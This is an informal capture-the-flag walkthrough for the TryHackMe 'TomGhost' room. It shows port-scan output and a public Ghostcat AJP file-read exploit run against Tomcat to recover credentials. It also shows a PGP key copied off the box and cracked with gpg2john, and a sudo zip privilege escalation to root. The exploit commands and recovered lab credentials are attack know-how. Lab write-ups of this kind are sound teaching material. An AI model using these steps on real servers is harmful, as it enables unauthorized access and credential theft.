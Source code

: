 # TomGhost-TryHackMe
scanning

22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey: 

|   2048 f3c89f0b6ac5fe95540be9e3ba93db7c (RSA)

|   256 dd1a09f59963a3430d2d90d8e3e11fb9 (ECDSA)

|_  256 48d1301b386cc653ea3081805d0cf105 (ED25519)

53/tcp   open  tcpwrapped

8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)

| ajp-methods: 

|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http       Apache Tomcat 9.0.30

|_http-title: Apache Tomcat/9.0.30

|_http-favicon: Apache Tomcat

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Search on google of tomcat and apache jserv version(try to enumerate apache jserv and find web-inf/web.xml

{https://github.com/doggycheng/CNVD-2020-10487} 

python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f /WEB-INF/web.xml ip

#found username
username==1
skyfuck:8730281lkjlkjdqlksalks

found user.txt

try to enumerate the two credentials file

gpg --import tryhackme.asc

#copy .asc file to own computer
scp skyfuck@10.10.94.147:tryhackme.asc /tmp

gpg2john tryhackme.asc > /tmp/hash

gpg --decrypt credential.pgp


username==2
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

sudo -l
/usr/bin/zip--- which is root access

I got root and finally go to bed:)

